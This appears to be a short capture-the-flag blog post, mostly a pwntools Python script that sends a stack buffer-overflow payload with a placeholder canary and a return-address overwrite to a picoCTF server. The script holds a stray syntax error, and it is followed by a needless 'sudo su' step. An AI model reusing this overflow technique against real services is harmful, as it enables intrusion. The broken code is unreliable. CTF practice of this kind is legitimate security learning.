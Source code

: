 ```yaml
---
layout: post
title: "Post 2"
date: 2024-03-17
categories: CTF
tags: [web-exploitation, reverse-engineering]
author: sam
img_path: _site/assets/img/posts
---
```


Another post. 

> Passwords are good!
{: .prompt-tip }

```python
from pwn import *


host, port = "saturn.picoctf.net", 52235
conn = remote(host, port)

)
buffer_size = 64
canary = "AAAA"  # Replace with the actual canary value
win_address = p32(0x5655625d)  # p32 converts the address to little-endian


payload = b"A" * buffer_size  # Fill the buffer
payload += canary.encode()    # Add the canary
payload += b"B" * 4           # Padding between the canary and the return address
payload += win_address        # Overwrite the return address with the win function address

# Send the payload
conn.sendline(payload)


try:
    response = conn.recvall()
    print(response)
except EOFError:
    print("Received EOFError, which may indicate a failed exploit or closed connection.")


conn.close()


```

```shell
sudo su
python3 payload_script.py

```
{: .nolineno }




![The Lock](gg.webp){:style="display:block; margin-left:auto; margin-right:auto; width:50%;"}
